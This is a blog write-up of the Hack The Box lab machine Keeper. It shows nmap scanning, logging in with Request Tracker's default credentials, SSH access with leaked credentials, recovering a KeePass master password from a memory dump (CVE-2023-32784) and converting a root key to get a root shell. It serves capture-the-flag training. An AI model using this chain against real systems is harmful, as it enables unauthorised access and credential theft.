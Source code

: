 ```yaml
---
layout: single
title: Keeper - Hack The Box
excerpt: "Keeper is an easy-difficulty Linux machine that features a support ticketing system that uses default credentials. Enumerating the service, we are able to see clear text credentials that lead to SSH access. With 'SSH' access, we can gain access to a KeePass database dump file, which we can leverage to retrieve the master password. With access to the 'Keepass' database, we can access the root 'SSH' keys, which are used to gain a privileged shell on the host."
date: 2025-05-26
classes: wide
header:
  teaser: /img2/keeper.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - Abusing Request Tracker
  - Information Leakage
  - Obtaining KeePass password through memory dump [Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.227
```

![](/img2/Pasted%20image%2020250526123352.png)

- Add domain to local DNS

```bash
echo "10.10.11.227 tickets.keeper.htb" >> /etc/hosts
```

## Exploitation

- Request Tracker default credentials

![](/img2/Pasted%20image%2020250526125520.png)

> root
> password

- Leaked credentials

![](/img2/Pasted%20image%2020250526125621.png)

- Conect to ssh 

```bash
ssh 10.10.11.227 -l lnorgaard
```

## Post-exploitation

- Extract Keepass dump (CVE-2023-32784)

```bash
scp lnorgaard@10.10.11.227:/home/lnorgaard/RT30000.zip .
```

```bash
7z x RT30000.zip
```

https://github.com/vdohney/keepass-password-dumper

```bash
dotnet run ../KeePassDumpFull.dmp
```

![](/img2/Pasted%20image%2020250526140145.png)

![](/img2/Pasted%20image%2020250526140223.png)
- Read kdbx database file

```bash
keepassxc ../passcodes.kdbx
```

![](/img2/Pasted%20image%2020250526140340.png)

- Create ssh private key with PuTTY-User-Key-File

![](/img2/Pasted%20image%2020250526140924.png)

```bash
puttygen pass.ppk -O private-openssh -o id_rsa
```

```bash
ssh -i id_rsa root@10.10.11.227
```

![](/img2/Pasted%20image%2020250526140832.png)